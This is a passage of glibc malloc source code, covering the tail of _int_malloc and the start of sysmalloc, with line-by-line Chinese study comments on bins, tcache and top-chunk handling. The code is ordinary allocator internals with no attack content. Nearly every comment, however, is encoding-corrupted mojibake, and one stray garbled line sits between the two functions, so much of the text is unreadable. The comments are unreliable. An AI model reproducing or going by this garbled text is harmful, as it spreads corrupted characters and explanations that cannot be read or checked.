unsorted_chunks (av)->bk = bck;
bck->fd = unsorted_chunks (av);
/* Take now instead of binning if exact fit */
// æ°å¥½å®Œå…¨åŒ¹é…
if (size == nb) {
// 设立下一个 chunk çš„ prev_inuse ä½
set_inuse_bit_at_offset (victim, size);
// 设立 non_main_arena ä½
if (av != &main_arena)
set_non_main_arena (victim);
#if USE_TCACHE
/* Fill cache first, return to user only if cache fills.
We may return one of these chunks later. */
// tcache_nb å˜åœ¨
// 对应的 tcache_bin 未满
if (tcache_nb
&& tcache->counts[tc_idx] < mp_.tcache_count)
{
// æŠŠè¯¥å— åŠ å…¥ tcache bin ä¸
tcache_put (victim, tc_idx);
// 设立返å›æ ‡å¿—
return_cached = 1;
continue;
}
// ä¸æ»¡è¶³ tcache 储å˜çš„情况
else
{
#endif
// ç›´æ¥è¿”å›
check_malloced_chunk (av, victim, nb);
void *p = chunk2mem (victim);
alloc_perturb(p, bytes);
return p;
#if USE_TCACHE
}
#endif
}
/* place chunk in bin */
if (in_smallbin_range (size)) {
// 拿到 small_bin 的索引
victim_index = smallbin_index (size);
// 拿到链表头
bck = bin_at (av, victim_index);
// 拿到 第一个元ç´
fwd = bck->fd;
} else {
// 拿到 large_bin 的索引
victim_index = largebin_index (size);
// 拿到链表头
bck = bin_at (av, victim_index);
// 拿到 第一个元ç´
fwd = bck->fd;
/* maintain large bins in sorted order */
// large bin ä¸æœ‰ç©ºé—² chunkå˜åœ¨
if (fwd != bck) {
/* Or with inuse bit to speed comparisons */
//
size |= PREV_INUSE;
/* if smaller than smallest, bypass loop below */
assert(chunk_main_arena (bck->bk));
// large binä¸çš„chunk是按ä»å¤§åˆ°å°æ’列的
// bck->bk 当å‰é“¾è¡¨ä¸æœ€å°çš„
if ((unsigned long) (size)
< (unsigned long) chunksize_nomask (bck->bk)) {
// fwd = 链表头
// bk = 当å‰é“¾è¡¨æœ€å°çš„那个chunk
fwd = bck;
bck = bck->bk;
// fd_nextsize = 链表ä¸é™¤å¤´å¤–的第一个元ç´
victim->fd_nextsize = fwd->fd;
// bk_nextsize = 链表ä¸é™¤å¤´å¤–çš„ç¬¬ä¸€ä¸ªå…ƒç´ çš„ bk_nextsize
victim->bk_nextsize = fwd->fd->bk_nextsize;
// 链表ä¸é™¤å¤´å¤–çš„ç¬¬ä¸€ä¸ªå…ƒç´ çš„ bk_nextsize = victim
// 完æˆåŒé“¾è¡¨çš„è¿æ¥
fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
} else {
assert(chunk_main_arena (fwd));
// æ ¹æ® fd_nextsize 进行éå†ï¼Œç›´åˆ°æ‰¾åˆ°åº”该æ’入的ä½ç½®
while ((unsigned long) size < chunksize_nomask (fwd)) {
fwd = fwd->fd_nextsize;
assert(chunk_main_arena (fwd));
}
// 如æœä» large bin 链表ä¸æ‰¾åˆ°äº†ä¸å½“å‰ chunk 大å°ç›¸åŒçš„ chunk
//
if ((unsigned long) size
== (unsigned long) chunksize_nomask (fwd))
/* Always insert in the second position. */
fwd = fwd->fd;
// 如æœä» large bin 链表ä¸æ²¡æœ‰æ‰¾åˆ°ä¸å½“å‰ chunk 大å°ç›¸åŒçš„ chunk
else {
// å°† victim æ’入其ä¸å¹¶å¸¦æœ‰ size 域
victim->fd_nextsize = fwd;
victim->bk_nextsize = fwd->bk_nextsize;
fwd->bk_nextsize = victim;
victim->bk_nextsize->fd_nextsize = victim;
}
// æ¥å…¥åŒé“¾è¡¨ä¸
bck = fwd->bk;
}
}
// 相应的 large bin 没有值
else
// ç›´æ¥æ’å…¥
victim->fd_nextsize = victim->bk_nextsize = victim;
}
// #define mark_bin(m, i) ((m)->binmap[idx2block (i)] |= idx2bit (i))
mark_bin (av, victim_index);
// å°† victim 移动至 fd ä¸ bk çš„åŒé“¾è¡¨ä¸
victim->bk = bck;
victim->fd = fwd;
fwd->bk = victim;
bck->fd = victim;
#if USE_TCACHE
/* If we've processed as many chunks as we're allowed while
filling the cache, return one of the cached ones. */
++tcache_unsorted_count;
// 满足æ¡ä»¶
if (return_cached
&& mp_.tcache_unsorted_limit > 0
&& tcache_unsorted_count > mp_.tcache_unsorted_limit)
{
// è¿”å›ä¹‹å‰å˜å…¥çš„ tcache
return tcache_get (tc_idx);
}
#endif
#define MAX_ITERS 10000
if (++iters >= MAX_ITERS)
break;
}
#if USE_TCACHE
/* If all the small chunks we found ended up cached, return one now. */
// 如æœä¸Šé¢æ²¡æœ‰å–出
if (return_cached)
{
// è¿”å›ä¹‹å‰å˜å…¥çš„ tcache
return tcache_get (tc_idx);
}
#endif
/*
If a large request, scan through the chunks of current bin in
sorted order to find smallest that fits. Use the skip list for this.
*/
// 在 large bin ä¸æŸ¥æ‰¾
if (!in_smallbin_range (nb)) {
// 在 arena 找到对应的ä½ç½®
bin = bin_at (av, idx);
/* skip scan if empty or largest chunk is too small */
// bin ä¸æœ‰å€¼
// 且该 chunk çš„ size å¤§äº nb
if ((victim = first (bin)) != bin
&& (unsigned long) chunksize_nomask (victim)
>= (unsigned long) (nb)) {
// ä»æœ€å°çš„那个 chunk 开始
victim = victim->bk_nextsize;
// ä»å°åˆ°å¤§éå†ï¼Œç›´åˆ°æ‰¾åˆ°ä¸€ä¸ª size 比请求的 nb 大äºæˆ–ç‰äºçš„
while (((unsigned long) (size = chunksize (victim)) <
(unsigned long) (nb)))
victim = victim->bk_nextsize;
/* Avoid removing the first entry for a size so that the skip
list does not have to be rerouted. */
// å¦‚æœ victim ä¸æ˜¯ bin 的最å一个 chunk
// 且 victim ä¸æ˜¯ skip list
if (victim != last (bin)
&& chunksize_nomask (victim)
== chunksize_nomask (victim->fd))
// 拿到的 victim 是 没有 next_size 域的那个
victim = victim->fd;
// 切割å‰å‡†å¤‡
remainder_size = size - nb;
// å–消链æ¥
unlink (av, victim, bck, fwd);
/* Exhaust */
// 如æœåˆ‡å‰²å的大å°ä¸è¶³ä»¥ä½œä¸ºä¸€ä¸ª chunk ，那么就ä¸åˆ†å‰²ç›´æ¥å°†å…¶æ ‡å¿—ä½è®¾ä¸º inuse
if (remainder_size < MINSIZE)
{
// 设置下一个 chunk çš„ prev_inuse ä½
set_inuse_bit_at_offset (victim, size);
if (av != &main_arena)
set_non_main_arena (victim);
}
/* Split */
// 切割
else
{
remainder = chunk_at_offset (victim, nb);
/* We cannot assume the unsorted list is empty and therefore
have to perform a complete insert here. */
// 将切割åçš„ chunk 放入 unsorted bin ä¸
// 记录 remainder
bck = unsorted_chunks (av);
fwd = bck->fd;
if (__glibc_unlikely(fwd->bk != bck))
malloc_printerr("malloc(): corrupted unsorted chunks");
remainder->bk = bck;
remainder->fd = fwd;
bck->fd = remainder;
fwd->bk = remainder;
if (!in_smallbin_range (remainder_size)) {
remainder->fd_nextsize = NULL;
remainder->bk_nextsize = NULL;
}
set_head (victim, nb | PREV_INUSE |
(av != &main_arena ? NON_MAIN_ARENA : 0));
set_head (remainder, remainder_size | PREV_INUSE);
set_foot (remainder, remainder_size);
}
check_malloced_chunk (av, victim, nb);
void *p = chunk2mem (victim);
alloc_perturb(p, bytes);
return p;
}
}
/*
Search for a chunk by scanning bins, starting with next largest
bin. This search is strictly by best-fit; i.e., the smallest
(with ties going to approximately the least recently used) chunk
that fits is selected.
The bitmap avoids needing to check that most blocks are nonempty.
The particular case of skipping all bins during warm-up phases
when no chunks have been returned yet is faster than it might look.
*/
// 如æœé€šè¿‡ä¸Šé¢çš„æ–¹å¼ä»æœ€åˆé€‚çš„ small bin 或 large bin ä¸éƒ½æ²¡æœ‰åˆ†é…到需è¦çš„ chunk，
// 则 æŸ¥çœ‹æ¯”å½“å‰ bin çš„ index 大的 small bin 或 large bin 是å¦æœ‰ç©ºé—² chunk å¯åˆ©ç”¨æ¥åˆ†é…所需的 chunk。
// è·å–下一个相邻 bin 的空闲 chunk 链表
++idx;
bin = bin_at (av, idx);
// binmap å—段是一个 int 数组，ptmalloc 用一个 bit æ¥æ ‡è¯†è¯¥ bit 对应的 bin ä¸æ˜¯å¦åŒ…å«ç©ºé—² chunk。
// Binmap 按 block 管ç†ï¼Œæ¯ä¸ª block 为一个 int，共 32 个 bit，å¯ä»¥è¡¨ç¤º 32 个 bin ä¸æ˜¯å¦æœ‰ç©ºé—² chunk å˜åœ¨ã€‚
// 使用 binmap å¯ä»¥åŠ 快查找 bin 是å¦åŒ…å«ç©ºé—² chunk。
// 这里åªæŸ¥è¯¢æ¯”所需 chunk 大的 bin ä¸æ˜¯å¦æœ‰ç©ºé—² chunk å¯ç”¨ã€‚
block = idx2block (idx);
map = av->binmap[block];
// Idx2bit()å®å°† idx 指定的ä½è®¾ç½®ä¸º 1，其它ä½æ¸…零，
// map 表示一个 block(unsigned int) 值，如æœbit å¤§äº map，
// æ„味ç€æ¯”bit对应的binçš„size大的binä¸æ— 空闲chunk，
// å¦‚æœ map 为 0，该 block 所对应的所有 bins ä¸éƒ½æ²¡æœ‰ç©ºé—² chunk，
// äºæ˜¯éå† binmap 的下一个 block，直到找到一个ä¸ä¸º 0 çš„ block
// 或者éå†å®Œæ‰€æœ‰çš„ block。
// 退出循ç¯éå†å，设置 bin æŒ‡å‘ block 的第一个 bit 对应的 bin，
// 并将 bit 置为 1，表示该 block ä¸ bit 1 对应的 bin，
// 这个 bin ä¸å¦‚æœæœ‰ç©ºé—² chunk，该 chunk 的大å°ä¸€å®šæ»¡è¶³è¦æ±‚。
bit = idx2bit (idx);
for (;;) {
// 如æœbit å¤§äº map，æ„味ç€æ¯”该bit对应的binçš„size大的binä¸æ— 空闲chunkï¼Œå¦‚æœ map 为 0，
// 该 block 所对应的所有 bins ä¸éƒ½æ²¡æœ‰ç©ºé—² chunk 。æ¥ç€åœ¨ä¸‹ä¸€ä¸ªblockä¸å¯»æ‰¾
/* Skip rest of block if there are no more set bits in this block. */
if (bit > map || bit == 0) {
do {
if (++block >= BINMAPSIZE) /* out of bins */
// 如æœblock超过了范围，说æ˜æ¯”所需chunk大的binä¸æ²¡æœ‰chunk，直æ¥ä½¿ç”¨top_chunk
goto use_top;
// 如æœblock为0,这表æ˜blockä¸çš„所有bit所对应的bin没有空闲chunk
} while ((map = av->binmap[block]) == 0);
bin = bin_at (av, (block << BINMAPSHIFT));
bit = 1;
}
/* Advance to bin with set bit. There must be one. */
// 在一个blockéå†å¯¹åº”çš„ bin，直到找到一个 bit ä¸ä¸º 0 退出éå†ï¼Œåˆ™è¯¥ bit 对äºçš„ bin ä¸æœ‰ç©ºé—² chunk å˜åœ¨ã€‚
while ((bit & map) == 0) {
bin = next_bin (bin);
bit <<= 1;
assert(bit != 0);
}
/* Inspect the bin. It is likely to be non-empty */
// è·å–bin尾部的chunk
victim = last (bin);
/* If a false alarm (empty bin), clear the bit. */
// å¦‚æœ victim ä¸ bin 链表头指针相åŒï¼Œè¡¨ç¤ºè¯¥ bin ä¸æ²¡æœ‰ç©ºé—² chunk，binmap ä¸çš„相应ä½
// 设置ä¸å‡†ç¡®ï¼Œå°† binmap 的相应 bit ä½æ¸…零，è·å–å½“å‰ bin 下一个 bin，将 bit 移到下一个
// bit ä½ï¼Œå³ä¹˜ä»¥ 2。
if (victim == bin) {
av->binmap[block] = map &= ~bit; /* Write through */
bin = next_bin (bin);
bit <<= 1;
} else {
// å½“å‰ bin ä¸çš„最å一个 chunk 满足è¦æ±‚，è·å–该 chunk 的大å°ï¼Œè®¡ç®—切分出所需 chunk
// å剩余部分的大å°ï¼Œç„¶åå°† victim ä» bin 的链表ä¸å–出。
/* We know the first chunk in this bin is big enough to use. */
size = chunksize (victim);
assert((unsigned long) (size) >= (unsigned long) (nb));
remainder_size = size - nb;
/* unlink */
unlink (av, victim, bck, fwd);
/* Exhaust */
// 如æœå‰©ä½™éƒ¨åˆ†çš„大å°å°äº MINSIZE，将整个 chunk 分é…给应用层，设置 victim 的状æ€ä¸º
// inuse，如æœå½“å‰åˆ†é…区为é主分é…区，设置 victim çš„é主分é…åŒºæ ‡å¿—ä½ã€‚
if (remainder_size < MINSIZE)
{
set_inuse_bit_at_offset (victim, size);
if (av != &main_arena)
set_non_main_arena (victim);
}
/* Split */
else
{
// 如æœå‰©ä½™çš„大å°å¯ä»¥ä½œä¸ºä¸€ä¸ªchunk
// è·å¾—剩余部分的地å€ï¼Œæ”¾å…¥unsorted binä¸
remainder = chunk_at_offset (victim, nb);
/* We cannot assume the unsorted list is empty and therefore
have to perform a complete insert here. */
bck = unsorted_chunks (av);
fwd = bck->fd;
// 检查unsorted bin ä¸çš„链表头部是å¦åˆæ³•
if (__glibc_unlikely(fwd->bk != bck))
malloc_printerr("malloc(): corrupted unsorted chunks 2");
remainder->bk = bck;
remainder->fd = fwd;
bck->fd = remainder;
fwd->bk = remainder;
/* advertise as last remainder */
if (in_smallbin_range (nb))
av->last_remainder = remainder;
if (!in_smallbin_range (remainder_size)) {
remainder->fd_nextsize = NULL;
remainder->bk_nextsize = NULL;
}
set_head (victim, nb | PREV_INUSE |
(av != &main_arena ? NON_MAIN_ARENA : 0));
set_head (remainder, remainder_size | PREV_INUSE);
set_foot (remainder, remainder_size);
}
check_malloced_chunk (av, victim, nb);
void *p = chunk2mem (victim);
alloc_perturb(p, bytes);
return p;
}
}
use_top:
/*
If large enough, split off the chunk bordering the end of memory
(held in av->top). Note that this is in accord with the best-fit
search rule. In effect, av->top is treated as larger (and thus
less well fitting) than any other available chunk since it can
be extended to be as large as necessary (up to system
limitations).
We require that av->top always exists (i.e., has size >=
MINSIZE) after initialization, so if it would otherwise be
exhausted by current request, it is replenished. (The main
reason for ensuring it exists is that we may need MINSIZE space
to put in fenceposts in sysmalloc.)
*/
// 如æœä»æ‰€æœ‰çš„ bins ä¸éƒ½æ²¡æœ‰è·å¾—所需的 chunk，å¯èƒ½çš„情况为 bins ä¸æ²¡æœ‰ç©ºé—² chunk，
// 或者所需的 chunk 大å°å¾ˆå¤§ï¼Œä¸‹ä¸€æ¥å°†å°è¯•ä» top chunk ä¸åˆ†é…所需 chunk。
victim = av->top;
size = chunksize (victim);
// æœ top chunk 满足我们è¦ç”³è¯·çš„ chunk 大å°è¦æ±‚
if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE))
{
// 切割 top chunk
remainder_size = size - nb;
remainder = chunk_at_offset (victim, nb);
av->top = remainder;
set_head (victim, nb | PREV_INUSE |
(av != &main_arena ? NON_MAIN_ARENA : 0));
set_head (remainder, remainder_size | PREV_INUSE);
check_malloced_chunk (av, victim, nb);
void *p = chunk2mem (victim);
alloc_perturb(p, bytes);
return p;
}
/* When we are using atomic ops to free fast chunks we can get
here for all block sizes. */
// å¦‚æœ top chunk 空间ä¸å¤Ÿ
// 且 fastbin ä¸æœ‰ç©ºé—² chunk
else if (atomic_load_relaxed(&av->have_fastchunks)) {
// è§¦å‘ malloc_consolidate 函数åˆå¹¶ fastbin çš„ chunk
malloc_consolidate(av);
/* restore original bin index */
if (in_smallbin_range (nb))
idx = smallbin_index (nb);
else
idx = largebin_index (nb);
}
/*
Otherwise, relay to handle system-dependent cases
*/
else {
void *p = sysmalloc(nb, av);
if (p != NULL)
alloc_perturb(p, bytes);
return p;
}
}
}
æ¤éƒ¨åˆ†æ¥è‡ª link
/*
sysmalloc handles malloc cases requiring more memory from the system.
On entry, it is assumed that av->top does not have enough
space to service request for nb bytes, thus requiring that av->top
be extended or replaced.
*/
static void *sysmalloc(INTERNAL_SIZE_T nb, mstate av) {
mchunkptr old_top; /* incoming value of av->top */
INTERNAL_SIZE_T old_size; /* its size */
char *old_end; /* its end address */
long size; /* arg to first MORECORE or mmap call */
char *brk; /* return value from MORECORE */
long correction; /* arg to 2nd MORECORE call */
char *snd_brk; /* 2nd return val */
INTERNAL_SIZE_T front_misalign; /* unusable bytes at front of new space */
INTERNAL_SIZE_T end_misalign; /* partial page left at end of new space */
char *aligned_brk; /* aligned offset into brk */
mchunkptr p; /* the allocated/returned chunk */
mchunkptr remainder; /* remainder from allocation */
unsigned long remainder_size; /* its size */
size_t pagesize = GLRO(dl_pagesize);
bool tried_mmap = false;
/*
If have mmap, and the request size meets the mmap threshold, and
the system supports mmap, and there are few enough currently
allocated mmapped regions, try to directly map this request
rather than expanding top.
*/
// 如æœæ²¡æœ‰åˆ†é…区
// 或所需分é…çš„ chunk 大å°å¤§äº mmap 分é…阈值 且 当å‰è¿›ç¨‹ä½¿ç”¨ mmap() 分é…的内å˜å—å°äºè®¾å®šçš„最大值
if (av == NULL
|| ((unsigned long) (nb) >= (unsigned long) (mp_.mmap_threshold)
&& (mp_.n_mmaps < mp_.n_mmaps_max))) {
char *mm; /* return value from mmap call*/
try_mmap:
/*
Round up size to nearest page. For mmapped chunks, the overhead
is one SIZE_SZ unit larger than for normal chunks, because there
is no following chunk whose prev_size field could be used.
See the front_misalign handling below, for glibc there is no
need for further alignments unless we have have high alignment.
*/
// 计算满足页对é½çš„最å°åˆ†é…内å˜å¤§å°
if (MALLOC_ALIGNMENT == 2 * SIZE_SZ)
size = ALIGN_UP(nb + SIZE_SZ, pagesize);
else
size = ALIGN_UP(nb + SIZE_SZ + MALLOC_ALIGN_MASK, pagesize);
tried_mmap = true;
/* Don't try if size wraps around 0 */
// 如æœé‡æ–°è®¡ç®—所需分é…çš„ size å¤§äº nb
if ((unsigned long) (size) > (unsigned long) (nb)) {
mm = (char *) (MMAP (0, size, PROT_READ | PROT_WRITE, 0));
// å¦‚æœ mmap()分é…内å˜æˆåŠŸ
// å°† mmap()è¿”å›çš„内å˜æŒ‡é’ˆå¼ºåˆ¶è½¬æ¢ä¸º chunk 指针
// 并设置该 chunk 的大å°ä¸º size，åŒæ—¶è®¾ç½®è¯¥ chunk çš„ IS_MMAPPED æ ‡å¿—ä½
// 表示本 chunk 是通过 mmap()函数直æ¥ä»ç³»ç»Ÿåˆ†é…çš„
if (mm != MAP_FAILED) {
/*
The offset to the start of the mmapped region is stored
in the prev_size field of the chunk. This allows us to adjust
returned start address to meet alignment requirements here
and in memalign(), and still be able to compute proper
address argument for later munmap in free() and realloc().
*/
// å¦‚æœ MALLOC_ALIGNMENT ä¸ç‰äº 2 * SIZE_SZ，则分é…的内å˜
// å¯èƒ½æ˜¯ä¸å¯¹é½çš„，按照 MALLOC_ALIGNMENT 具体的值进行对é½
if (MALLOC_ALIGNMENT == 2 * SIZE_SZ) {
/* For glibc, chunk2mem increases the address by 2*SIZE_SZ and
MALLOC_ALIGN_MASK is 2*SIZE_SZ-1. Each mmap'ed area is page
aligned and therefore definitely MALLOC_ALIGN_MASK-aligned. */
// 检测是å¦å¯¹é½
assert(((INTERNAL_SIZE_T)chunk2mem (mm) & MALLOC_ALIGN_MASK) == 0);
front_misalign = 0;
} else
front_misalign = (INTERNAL_SIZE_T)chunk2mem (mm) & MALLOC_ALIGN_MASK;
if (front_misalign > 0) {
correction = MALLOC_ALIGNMENT - front_misalign;
p = (mchunkptr) (mm + correction);
set_prev_size (p, correction);
set_head (p, (size - correction) | IS_MMAPPED);
} else {
p = (mchunkptr) mm;
set_prev_size (p, 0);
set_head (p, size | IS_MMAPPED);
}
/* update statistics */
// 更新相关统计值，首先将当å‰è¿›ç¨‹ mmap 分é…内å˜å—çš„è®¡æ•°åŠ ä¸€ï¼Œå¦‚æœä½¿ç”¨
// mmap() 分é…的内å˜å—æ•°é‡å¤§äºè®¾ç½®çš„最大值，将最大值设置为最新值，这个
// 判æ–ä¸ä¼šæˆåŠŸï¼Œå› 为使用mmap分é…内å˜çš„æ¡ä»¶ä¸åŒ…括了mp_.n_mmaps < mp_.n_mmaps_max，
// 所以++mp_.n_mmaps > mp_.max_n_mmaps ä¸ä¼šæˆç«‹ã€‚然åæ›´æ–° mmap 分é…的内å˜
// 总é‡ï¼Œå¦‚æœè¯¥å€¼å¤§äºè®¾ç½®çš„最大值，将当å‰å€¼èµ‹å€¼ç»™ mp_.max_mmapped_mem
int new = atomic_exchange_and_add(&mp_.n_mmaps, 1) + 1;
atomic_max(&mp_.max_n_mmaps, new);
unsigned long sum;
sum = atomic_exchange_and_add(&mp_.mmapped_mem, size) + size;
atomic_max(&mp_.max_mmapped_mem, sum);
check_chunk (av, p);
// 将分é…çš„ chunk 的指针返å›ï¼Œç”¨æˆ·å˜æ”¾æ•°æ®æ—¶å°±æ˜¯ä»è¯¥æŒ‡é’ˆæŒ‡å‘的内å˜å¼€å§‹å˜æ”¾
return chunk2mem (p);
}
}
}
/* There are no usable arenas and mmap also failed. */
if (av == NULL)
return 0;
/* Record incoming configuration of top */
// ä¿å˜å½“å‰ top chunk 的指针，大å°å’Œç»“æŸåœ°å€åˆ°ä¸´æ—¶å˜é‡ä¸
old_top = av->top;
old_size = chunksize (old_top);
old_end = (char *) (chunk_at_offset (old_top, old_size));
brk = snd_brk = (char *) (MORECORE_FAILURE);
/*
If not the first time through, we require old_size to be
at least MINSIZE and to have prev_inuse set.
*/
// 检查 top chunk çš„åˆæ³•æ€§ï¼Œå¦‚æœç¬¬ä¸€æ¬¡è°ƒç”¨æœ¬å‡½æ•°ï¼Œtop chunk å¯èƒ½æ²¡æœ‰åˆå§‹åŒ–，
// å¯èƒ½ old_size 为 0ï¼Œå¦‚æœ top chunk å·²ç»åˆå§‹åŒ–，则 top chunk 的大å°å¿…é¡»
// 大äºç‰äº MINSIZEï¼Œå› ä¸º top chunk ä¸åŒ…å«äº† fencepost，fencepost éœ€è¦ MINSIZE
// 大å°çš„内å˜ã€‚Top chunk å¿…é¡»æ ‡è¯†å‰ä¸€ä¸ª chunk å¤„äº inuse 状æ€ï¼Œè¿™æ˜¯è§„定，并且
// top chunk 的结æŸåœ°å€å¿…定是页对é½çš„。å¦å¤– top chunk çš„é™¤å» fencepost 的大å°
// 必定å°äºæ‰€éœ€ chunk 的大å°ï¼Œä¸ç„¶åœ¨_int_malloc()函数ä¸å°±åº”该使用 top chunk è·å¾—所需的 chunk
assert((old_top == initial_top (av) && old_size == 0) ||
((unsigned long) (old_size) >= MINSIZE &&
prev_inuse (old_top) &&
((unsigned long) old_end & (pagesize - 1)) == 0));
/* Precondition: not enough current space to satisfy nb request */
assert((unsigned long) (old_size) < (unsigned long) (nb + MINSIZE));
// 如æœå½“å‰åˆ†é…区为é主分é…区
if (av != &main_arena) {
heap_info *old_heap, *heap;
size_t old_heap_size;
/* First try to extend the current heap. */
old_heap = heap_for_ptr (old_top);
old_heap_size = old_heap->size;
// æ ¹æ® top chunk 的指针è·å¾—å½“å‰ sub_heap çš„ heap_info å®ä¾‹ï¼Œ
// å¦‚æœ top chunk 的剩余有效空间ä¸è¶³ä»¥åˆ†é…出所需的 chunk（å‰
// é¢å·²ç»æ–言，这个肯定æˆç«‹ï¼‰ï¼Œå°è¯•å¢é•¿ sub_heap çš„å¯è¯»å¯å†™åŒº
// 域大å°ï¼Œå¦‚æœæˆåŠŸï¼Œä¿®æ”¹è¿‡å†…å˜åˆ†é…的统计信æ¯ï¼Œå¹¶æ›´æ–°æ–°çš„ top chunk çš„ size
if ((long) (MINSIZE +nb - old_size) > 0
&& grow_heap(old_heap, MINSIZE +nb - old_size) == 0)
{
av->system_mem += old_heap->size - old_heap_size;
set_head (old_top, (((char *) old_heap + old_heap->size) - (char *) old_top)
| PREV_INUSE);
}
// 调用 new_heap()函数创建一个新的 sub_heap，由äºè¿™ä¸ª sub_heap ä¸è‡³å°‘
// 需è¦å®¹ä¸‹å¤§å°ä¸º nb çš„ chunk，大å°ä¸º MINSIZE çš„ fencepost 和大å°ä¸º sizeof(*heap)
// çš„ heap_info å®ä¾‹ï¼Œæ‰€ä»¥ä¼ å…¥ new_heap()函数的分é…大å°ä¸º nb + (MINSIZE + sizeof(*heap))
else if ((heap = new_heap(nb + (MINSIZE +sizeof(*heap)), mp_.top_pad)))
{
/* Use a newly allocated heap. */
// 使新创建的 sub_heap ä¿å˜å½“å‰çš„分é…区指针，将该 sub_heap åŠ å…¥å½“å‰åˆ†é…区的
// sub_heap 链表ä¸ï¼Œæ›´æ–°å½“å‰åˆ†é…区内å˜åˆ†é…统计，将新创建的 sub_heap 仅有的一
// 个空闲chunk 作为当å‰åˆ†é…区的 top chunk，并设置 top chunk 的状æ€
heap->ar_ptr = av;
heap->prev = old_heap;
av->system_mem += heap->size;
/* Set up the new top. */
top (av) = chunk_at_offset (heap, sizeof(*heap));
set_head (top(av), (heap->size - sizeof(*heap)) | PREV_INUSE);
/* Setup fencepost and free the old top chunk with a multiple of
MALLOC_ALIGNMENT in size. */
/* The fencepost takes at least MINSIZE bytes, because it might
become the top chunk again later. Note that a footer is set
up, too, although the chunk is marked in use. */
old_size = (old_size - MINSIZE) &~MALLOC_ALIGN_MASK;
set_head (chunk_at_offset(old_top, old_size + 2 * SIZE_SZ), 0 | PREV_INUSE);
// è®¾ç½®åŸ top chunk çš„ fencepost，fencepost éœ€è¦ MINSIZE 大å°çš„内å˜ç©ºé—´ï¼Œå°†è¯¥ old_size
// å‡å» MINSIZE å¾—åˆ°åŸ top chunk 的有效内å˜ç©ºé—´ï¼Œé¦–先设置 fencepost 的第二个 chunk çš„ size
// 为 0ï¼Œå¹¶æ ‡è¯†å‰ä¸€ä¸ª chunk å¤„äº inuse 状æ€ã€‚æ¥ç€åˆ¤æ–åŸ top chunk 的有效内å˜ç©ºé—´ä¸Šæ˜¯å¦å¤§
// äºç‰äº MINSIZE，如æœæ˜¯ï¼Œè¡¨ç¤ºåŸ top chunk å¯ä»¥åˆ†é…出大äºç‰äº MINSIZE 大å°çš„ chunk，äº
// æ˜¯å°†åŸ top chunk 切分æˆç©ºé—² chunk å’Œ fencepost 两部分，先设置 fencepost 的第一个 chunk
// 的大å°ä¸º 2*SIZE_SZï¼Œå¹¶æ ‡è¯†å‰ä¸€ä¸ª chunk å¤„äº inuse 状æ€ï¼Œfencepost 的第一个 chunk 还需
// è¦è®¾ç½® foot，表示该 chunk 处äºç©ºé—²çŠ¶æ€ï¼Œè€Œ fencepost 的第二个 chunk å´æ ‡è¯†ç¬¬ä¸€ä¸ª chunk
// å¤„äº inuse 状æ€ï¼Œå› 为ä¸èƒ½æœ‰ä¸¤ä¸ªç©ºé—² chunk 相邻，æ‰ä¼šå‡ºç°è¿™ä¹ˆå¥‡æ€ªçš„ fencepost。å¦å¤–å…¶
// å® top chunk 切分出æ¥çš„ chunk 也是处äºç©ºé—²çŠ¶æ€ï¼Œä½† fencepost 的第一个 chunk å´æ ‡è¯†å‰ä¸€
// 个 chunk 为 inuse 状æ€ï¼Œç„¶åå¼ºåˆ¶å°†è¯¥å¤„äº inuse 状æ€çš„ chunk 调用_int_free()函数释放æ‰
// è¿™æ ·åšå®Œå…¨æ˜¯è¦éµå¾ªä¸èƒ½æœ‰ä¸¤ä¸ªç©ºé—² chunk 相邻的约定
if (old_size >= MINSIZE)
{
set_head (chunk_at_offset(old_top, old_size), (2 * SIZE_SZ) | PREV_INUSE);
set_foot (chunk_at_offset(old_top, old_size), (2 * SIZE_SZ));
set_head (old_top, old_size | PREV_INUSE | NON_MAIN_ARENA);
_int_free(av, old_top, 1);
}
// 如æœåŸ top chunk ä¸æœ‰æ•ˆç©ºé—´ä¸è¶³ MINSIZEï¼Œåˆ™å°†æ•´ä¸ªåŸ top chunk 作为 fencepost，
// 并设置 fencepost 的第一个 chunk 的相关状æ€
else
{
set_head (old_top, (old_size + 2 * SIZE_SZ) | PREV_INUSE);
set_foot (old_top, (old_size + 2 * SIZE_SZ));
}
}
// 如æœå¢é•¿ sub_heap çš„å¯è¯»å¯å†™åŒºåŸŸå¤§å°å’Œåˆ›å»ºæ–° sub_heap 都失败了，
// å°è¯•ä½¿ç”¨ mmap() 函数直æ¥ä»ç³»ç»Ÿåˆ†é…所需 chunk
else if (!tried_mmap)
/* We can at least try to use to mmap memory. */
goto try_mmap;
} else /* av == main_arena */
// 如æœå½“å‰åˆ†é…区为主分é…区
{ /* Request enough space for nb + pad + overhead */
size = nb + mp_.top_pad + MINSIZE;
/*
If contiguous, we can subtract out existing space that we hope to
combine with new space. We add it back later only if
we don't actually get contiguous space.
*/
// 一般情况下，主分é…区使用 sbrk()ä» heap ä¸åˆ†é…内å˜ï¼Œsbrk()è¿”å›è¿ç»çš„虚拟内å˜ï¼Œ
// 这里调整需è¦åˆ†é…çš„ size，å‡æ‰ top chunk ä¸å·²æœ‰ç©ºé—²å†…å˜å¤§å°
if (contiguous (av))
size -= old_size;
/*
Round to a multiple of page size.
If MORECORE is not contiguous, this ensures that we only call it
with whole-page arguments. And if MORECORE is contiguous and
this is not first time through, this preserves page-alignment of
previous calls. Otherwise, we correct to page-align below.
*/
// å°† size 按照页对é½ï¼Œsbrk()必须以页为å•ä½åˆ†é…è¿ç»è™šæ‹Ÿå†…å˜
size = ALIGN_UP(size, pagesize);
/*
Don't try to call MORECORE if argument is so big as to appear
negative. Note that since mmap takes size_t arg, it may succeed
below even if we cannot call MORECORE.
*/
// 使用 sbrk()ä» heap ä¸åˆ†é… size 大å°çš„虚拟内å˜å—
if (size > 0) {
brk = (char *) (MORECORE(size));
LIBC_PROBE(memory_sbrk_more, 2, brk, size);
}
// å¦‚æœ sbrk()分é…æˆåŠŸï¼Œå¹¶ä¸” morecore çš„ hook 函数å˜åœ¨ï¼Œè°ƒç”¨ morecore çš„ hook 函数
if (brk != (char *) (MORECORE_FAILURE)) {
/* Call the `morecore' hook if necessary. */
void (*hook)(void) = atomic_forced_read(__after_morecore_hook);
if (__builtin_expect(hook != NULL, 0))
(*hook)();
} else {
/*
If have mmap, try using it as a backup when MORECORE fails or
cannot be used. This is worth doing on systems that have "holes" in
address space, so sbrk cannot extend to give contiguous space, but
space is available elsewhere. Note that we ignore mmap max count
and threshold limits, since the space will not be used as a
segregated mmap region.
*/
